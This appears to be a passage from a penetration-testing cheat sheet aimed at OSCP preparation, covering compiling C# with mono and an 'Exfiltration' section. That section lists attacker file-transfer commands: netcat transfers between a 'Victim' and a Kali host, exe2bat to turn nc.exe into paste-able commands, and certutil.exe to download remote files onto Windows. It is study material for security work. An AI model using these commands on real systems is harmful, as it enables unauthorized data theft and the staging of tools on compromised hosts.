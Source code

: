 #### C#
```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```


## Exfiltration

- SSH Copy (scp)
```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

- Netcat
```bash
# Victim
nc -nvlp $RPORT > out.file

# Kali
nc -nv $RHOST $RPORT < in.file
```

- exe2bat
```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

- certutil.exe
```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

- [zip.vbs](files/zip.vbs) <sup><sub>[[copy&paste](files/zip.vbs.txt)]
```bash
CScript zip.vbs $SRC $DEST
```

- [wget.vbs](files/wget.vbs) <sup><sub>[[copy&paste](files/wget.vbs.txt)]
```bash
CScript wget.vbs $SRC $DEST
```

# Resources
https://sushant747.gitbooks.io/total-oscp-guide/
https://guif.re/linuxeop
https://guif.re/windowseop
https://github.com/rafiherm/OSCP